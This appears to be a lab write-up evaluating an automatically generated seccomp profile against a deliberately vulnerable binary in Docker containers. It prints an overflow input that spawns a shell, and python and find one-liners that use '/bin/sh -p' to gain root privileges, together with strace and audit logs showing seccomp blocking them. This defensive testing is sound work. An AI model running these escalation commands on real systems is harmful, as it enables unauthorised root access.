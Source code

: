 ## custom – chestnut

### Preparation

_For the container with seccomp, we execute the file `/tmp/script.sh` which is extracting the system calls from the binary `custom_app`, creating a seccomp-profile based on these detected system calls and subsequently applying the profile on the binary. Afterwards, the binary is automatically run._

```bash
docker exec -it custom-chestnut-seccomp-container bash -c "source /Chestnut/Binalyzer/venv/bin/activate && /tmp/script.sh"
```

_For the container without seccomp, we just have to start it with following command:_

```bash
docker exec -it custom-chestnut-normal-container bash
```

### Conduct the exploits

First, we verify the IP addresses of the container, to ensure we target the right containers:

```
❯ docker ps
CONTAINER ID   IMAGE                          COMMAND                  CREATED             STATUS             PORTS                                                   NAMES
b20881c64b5f   custom-chestnut-seccomp        "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-seccomp-container
920b0d9b8bfa   custom-chestnut-normal         "/bin/bash"              2 minutes ago       Up 2 minutes                                                               custom-chestnut-normal-container
```

_Seccomp_:

The attack on the container with the applied seccomp profile fails:

```
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   117 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/python3.6]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/python3.6]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   120 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/usr/bin/find]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/usr/bin/find]
/Chestnut/ChestnutPatcher/rewrite.sh: line 6:   123 Bad system call         (core dumped) LD_LIBRARY_PATH=. "${BIN}_patched" "$@"
(venv) user@acd42d303576:/Chestnut/ChestnutPatcher$ /Chestnut/ChestnutPatcher/rewrite.sh /app/custom_app AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd
[+] Allowed syscalls: 35
[+] Saved patched binary as /app/custom_app_patched
locals.path = [/bin/pwd]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/pwd]
/Chestnut/ChestnutPatcher
```

The attack on the container without the seccomp profile succeeds. We are able to run arbitrary commands:

```
(venv) user@590efaa20062:/app$ ./custom_app  AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh
locals.path = [/bin/sh]
locals.filename = [AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA/bin/sh]
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ true
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ uname
Linux
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/python3.6 -c 'import os; os.execl("/bin/sh", "sh", "-p")'
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) groups=1000(user)
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ /usr/bin/find . -exec /bin/sh -p \; -quit
(venv) \[\e]0;\u@\h: \w\a\]\u@\h:\w$ id
uid=1000(user) gid=1000(user) euid=0(root) egid=0(root) groups=0(root),1000(user)
```

### Analysis

As the exploit worked on the container without the seccomp profile, only the one with the enforced profile will be analysed.

_strace output:_
When starting the application with the command `strace -f /app/custom_app` we are able to see that just before the processes were killed with the signal `SIGSYS`, the system call `getuid` and `set_tid_address` were executed.

```
# /bin/sh execution
...
[pid   136] munmap(0x7ffff7ff1000, 18864) = 0
[pid   136] getuid()                    = 102
[pid   136] +++ killed by SIGSYS (core dumped) +++


# /usr/bin/python3.6 execution
...
[pid   141] munmap(0x7ffff7ff1000, 18864) = 0
[pid   141] set_tid_address(0x7ffff7feaa10) = 218
[pid   141] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/find execution
...
[pid   151] munmap(0x7ffff7ff1000, 18864) = 0
[pid   151] set_tid_address(0x7ffff7feaad0) = 218
[pid   151] +++ killed by SIGSYS (core dumped) +++

# /usr/bin/id execution
[pid   156] munmap(0x7ffff7ff1000, 18864) = 0
[pid   156] set_tid_address(0x7ffff7fee310) = 218
[pid   156] +++ killed by SIGSYS (core dumped) +++
```

Further analysis on the host machine with the tool `ausearch` delievers us more insights.
As we can see, the syscall with the number 108 was indeed blocked by seccomp

```
❯ sudo ausearch -m seccomp --start today
# /bin/sh execution
time->Thu May  1 12:53:48 2025
type=SECCOMP msg=audit(1746096828.843:2699): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140679 comm="sh" exe="/bin/dash" sig=31 arch=c000003e syscall=102 compat=0 ip=0x7ffff7ac7837 code=0x0

# /usr/bin/python3.6 execution
time->Thu May  1 12:53:52 2025
type=SECCOMP msg=audit(1746096832.059:2709): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140693 comm="python3.6" exe="/usr/bin/python3.6" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff77c8eb5 code=0x0

# /usr/bin/find execution
time->Thu May  1 12:53:54 2025
type=SECCOMP msg=audit(1746096834.240:2719): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=140727 comm="find" exe="/usr/bin/find" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff6d8deb5 code=0x0

# /usr/bin/id execution
time->Thu May  1 13:00:58 2025
type=SECCOMP msg=audit(1746097258.719:2794): auid=4294967295 uid=1000 gid=1000 ses=4294967295 pid=144107 comm="id" exe="/usr/bin/id" sig=31 arch=c000003e syscall=218 compat=0 ip=0x7ffff712beb5 code=0x0
```

We verify that the system call number `218` maps to `set_tid_address` with the `ausyscall` tool:

```
❯ ausyscall --dump | grep 102
102	getuid
❯ ausyscall --dump | grep 218
218	set_tid_address
```

The last thing we check is, if the system call numbers `102` and `218` were in the applied seccomp profile. The file `/Chestnut/ChestnutPatcher/policy__app_custom_app.json ` shows no presence:

```json
{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262, 59, 221
  ]
}
```

## Appendix

### Analysis Time

The following shows the time needed to extract the system calls from 3 runs:

```
docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.667s
user	0m24.341s
sys	0m1.184s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.976s
user	0m24.811s
sys	0m1.048s

docker exec -it custom-chestnut-seccomp-container bash -c "rm /Chestnut/Binalyzer/cached_results/*; source /Chestnut/Binalyzer/venv/bin/activate && cd /Chestnut/Binalyzer && time python3 /Chestnut/Binalyzer/filter.py /app/custom_app"
...
real	0m25.985s
user	0m24.805s
sys	0m1.072s
```

`(25,667+25,976+25,985)/3=25,876`

### Missing system calls

Following system calls are not detected by Binalyzers, but needed for the application to start successfully, therefore we added these two to the seccomp-profile `/Chestnut/ChestnutPatcher/policy__app_custom_app.json`. This is not Binalyzers fault for not recognising the required system call, but rather a side-effect of the application logic calling a binary outside the application.

- 59 (execve)
- 221 (fadvice64)

```
sed -i '/"syscalls"/ s/\]/, 59, 221]/' /Chestnut/ChestnutPatcher/policy__app_custom_app.json
```

### Number of System Calls

```
echo '{
  "version": 1,
  "syscalls": [
    0, 1, 3, 4, 5, 6, 8, 9, 10, 11, 12, 13, 14, 15, 20, 21, 38, 39, 60, 62, 63,
    72, 78, 79, 89, 158, 186, 202, 231, 234, 257, 262
  ]
}' | jq -r ".syscalls | length"
32
```

